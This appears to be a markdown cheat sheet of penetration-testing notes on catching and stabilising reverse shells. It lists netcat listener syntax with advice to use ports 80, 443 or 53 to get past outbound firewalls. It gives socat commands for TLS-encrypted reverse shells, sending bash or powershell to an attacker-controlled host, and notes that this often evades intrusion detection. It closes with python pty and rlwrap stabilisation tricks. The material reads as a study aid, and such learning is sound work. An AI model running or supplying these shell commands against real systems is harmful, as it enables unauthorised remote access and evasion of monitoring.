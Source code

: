 ```Bash

```

## Netcat
The syntax for starting a netcat listener using Linux is this:
```Bash
nc -lvnp <port-number>
```
Be aware that if you choose to use a port below 1024, you will need to use sudo when starting your listener. That said, it's often a good idea to use a well-known port number (80, 443 or 53 being good choices) as this is more likely to get past outbound firewall rules on the target.

## Socat
Although, it is same as netcat, but the real difference for which we would prefer this is encrypted shells. This often bypasses IDS system.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
We then need to merge the two created files into a single .pem file:
```bash
cat shell.key shell.crt > shell.pem
```
Now, when we set up our reverse shell listener, we use below command to listen on a port:
```bash
Listener -
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 FILE:`tty`,raw,echo=0
Connector -
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
For Windows Target-
```bash
Listener -
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
Connector -
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:"powershell.exe,pipes"
```
## Shell Stablize
### Using Python
```Bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
This will give us access to term commands such as clear - 
```Bash
export TERM=xterm
```
Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use stty raw -echo; fg. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

### Using rlwrap
To use rlwrap, we invoke a slightly different listener:
```Bash
rlwrap nc -lvnp <port>
```
Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. 


